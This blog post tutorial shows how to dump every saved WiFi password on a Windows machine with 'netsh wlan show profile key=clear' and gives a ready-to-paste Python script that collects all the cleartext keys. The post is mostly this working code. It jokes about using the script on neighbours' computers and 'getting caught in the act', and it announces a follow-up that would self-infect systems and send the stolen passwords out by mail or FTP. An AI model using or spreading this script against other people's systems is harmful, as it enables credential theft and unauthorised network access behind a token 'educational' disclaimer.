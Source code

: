 ```yaml
---
title: How to extract all WiFi Passwords with a single python script
date: "2021-02-07T12:00:00.000Z"
description: "Did you know that all the Wifi Passwords you type in a windows machine are stored locally and you can extract them all with just a few lines on command line. What's better is this can be automated by using python which allows us to exectue execute intructions on command line. Let's see how we can this as well "
---
```


Before starting anything I just wanna say (obligatory), **This is all for educational purpose and shouldn't be used for harming anyone**

Also that this can easily be done in any language that allows you to execute commands on the terminal. So let's see how this can be done on the terminal then we will see how we can automate this via python.

## Open a Terminal 

Press `Win + R` and type `cmd` in the input box next to `run: ` and press enter 

![](./images/Zero.jpg)

## Show all the saved profiles in your system 

Type `netsh wlan show profiles` and press enter. This should show all the Wifi Profiles saved on your system

![](./images/One.jpg)

## Details about a specific WiFi Profile

Enter `netsh wlan show profile <profile>` and replacing `<profile>` with the name of the profile you want to get details about 

![](./images/Two.jpg)

You can see `Security key: Present` in the `Security Settings` Section but it isn't showing the password. For that, we will have to pass in a parameter of `key=clear`. 

## So let's try this again

`netsh wlan show profile <profile> key=clear`

And voila 🥳🎊 We have the password in the `Key Content` Field just below `Security key: Present`
![](./images/Three.jpg)

The problem you can see here is that you will have to run this statement for each WiFi Profile and it might take some time to do this manually. Might just be the difference between you walking away with all passwords or getting caught in the act xD 

# Now let's automate this

I chose python because I am comfortable with it and have experience with executing instructions on the shell line via python but you can do the same with any language which allows you to execute commands on cmd and the output back. 

## How to execute a command on the shell from python

We could have used the `system()` method of the `os` module but the problem with that is that it runs the commands and prints the output directly on the stdout pipeline and there is no straight way to capture the output in a variable(as far as I know). So I'll be using the `check_output()` method of the `subprocess` module which takes in a list representing the command and returns the output after running the command as bytes. 

## Running commands and formating output

Let's see how we can use this to run `netsh wlan show profiles` 
```
import subprocess
output = subprocess.check_output(['netsh', 'wlan', 'show', 'profiles']) 
```   

And if we try printing `output`, it should look something like this: 

```
b'\r\nProfiles on interface Wi-Fi:\r\n\r\nGroup policy profiles (read only)\r\n---------------------------------\r\n    <None>\r\n\r\nUser profiles\r\n-------------\r\n    All User Profile     : JioFiber-5G\r\n    All User Profile     : JioFiber\r\n    All User Profile     : Blablabla 2\r\n   
 All User Profile     : Jaya\r\n    All User Profile     : 5G_Home\r\n    All User Profile     : 0E278461867E5885A4F8E790D14D056E 2\r\n    All User Profile     : Jio-2_4G\r\n    All User Profile     : Blablabla\r\n    All User Profile     : Jio5G\r\n    All User Profile     : 0E278461867E5885A4F8E790D14D056E\r\n    All User Profile     : Le pakad\r\n\r\n'
 ```
<br>

>  **NOTE:** You might get `\n` only instead of `\r\n` depending on which OS you are running this on. This is because DOS and Unix represent linebreak in different ways which are being carried to windows and Linux(why?). This can be a whole blog in itself 😂

Next, we should decode this string to `utf-8` and split it into different strings, and extract all the important information, a.k.a. Wifi profiles

```
data = output.decode('utf-8').split('\n')
profiles = []
for d in data:
    if "All User" in d:
        profiles.append(d.split(":")[1].replace('\r','').strip())
```

Now we should have all the profiles in a nice concise list

## Extracting Passwords for each profile

All we got to do now is loop over profiles and execute the same command for each profile, format the data and extract what's important for us. PASSWORDS (insert evil noise)

```
gold = [] 
for profile in profiles: 
    command = ["netsh", "wlan", "show", "profile", profile, "key=clear"]
    output = subprocess.check_output(command)
    data = output.decode('utf-8').split('\n')
    for d in data:
        if "Key Content" in d:
            password = d.split(":")[1].replace('\r','').strip()
            gold.append([profile,password])
```
And at last, drum rolls, please 🥁🥁

```
for g in gold:
    print("Username: " +g[0] + "\nPassword: " + g[1])
    print("------------------")
```
I am sorry but I can't show you my output 😜 but here is a representation of how it should look
```
Username: ABCD
Password: password
------------------
Username: Lock
Password: key
------------------
Username: Safe
Password: verysafe

```
# What you want to copy-paste 

```
import subprocess
output = subprocess.check_output(['netsh', 'wlan', 'show', 'profiles']) 

data = output.decode('utf-8').split('\n')
profiles = []
for d in data:
    if "All User" in d:
        profiles.append(d.split(":")[1].replace('\r','').strip())

gold = [] 
for profile in profiles: 
    command = ["netsh", "wlan", "show", "profile", profile, "key=clear"]
    output = subprocess.check_output(command)
    data = output.decode('utf-8').split('\n')
    for d in data:
        if "Key Content" in d:
            password = d.split(":")[1].replace('\r','').strip()
            gold.append([profile,password])

for g in gold:
    print("Username: " +g[0] + "\nPassword: " + g[1])
    print("------------------")
```

# Conclusion 
We learned about the `netsh` command on a shell which can be used to view all saved Wifi profiles and also how we can view information about a specific Wifi profile and we got to know how we can add pass an additional parameter to view the saved password, and at the end, we automated this whole process using python. Remember you can automate using any language with allows you to execute commands on a shell and read the output. 

# Next Step 
Ideas must be going left and right how you can execute this script on your neighbors and get their wifi and live the rest of your life for free, well ME TOO. So I am thinking of automating this to an extent that this script should infect the system on its own and extract the passwords and then send them to you via mail or an FTP server so that you don't even need to visit your neighbors.     Covid you know 🤷🏻‍♂😂

Follow me out on twitter [@jai_dewani](https://twitter.com/jai_dewani) if you wanna an update whenever I decide to post the next part 😉